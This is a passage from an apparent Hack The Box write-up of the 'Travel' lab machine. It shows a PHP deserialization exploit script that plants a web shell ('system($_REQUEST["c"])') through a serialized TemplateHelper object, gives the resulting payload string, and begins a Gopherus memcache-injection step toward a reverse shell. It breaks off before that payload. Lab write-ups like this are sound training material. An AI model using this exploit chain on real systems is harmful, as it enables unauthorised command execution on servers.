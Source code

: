 ```php
<?php

class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {        
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}

###
### The part below has been added
###
$user = new TemplateHelper('snow.php', '<?php system($_REQUEST["c"]); ?>');
echo serialize($user);

?>
```

When running the script, we get the serialized output:

```
snowscan@kali:~/htb/travel$ php exploit.php
PHP Warning:  file_put_contents(/home/snowscan/htb/travel/logs/snow.php): failed to open stream: No such file or directory in /home/snowscan/htb/travel/exploit.php on line 23
O:14:"TemplateHelper":2:{s:4:"file";s:8:"snow.php";s:4:"data";s:32:"<?php system($_REQUEST["c"]); ?>";}
```

## Reverse shell

So we'll go back to Gopherus with the PHP payload and get the payload for the memcache injection.

![image-20200519215655193](/assets/images/htb-writeup-travel/image-20200519215655193.png)

After changing the key for the correct value and replacing 127.0.0.1 by 0 we get the following payload:
